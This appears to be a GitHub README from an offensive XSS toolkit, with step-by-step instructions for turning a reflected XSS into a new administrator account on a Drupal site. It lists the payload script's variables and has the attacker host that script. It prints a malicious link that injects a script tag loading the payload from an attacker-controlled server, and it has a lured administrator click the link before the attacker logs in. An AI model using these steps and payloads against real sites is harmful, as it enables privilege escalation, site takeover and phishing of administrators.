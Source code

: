 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccDrupal.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: no password requirements)

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target Drupal site using specified credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/CreateNewAdmin/screenshots/Drupal_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/CreateNewAdmin/screenshots/Drupal_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/f6c8aaa9-6cc4-42e4-a224-6bdf9d5be35e
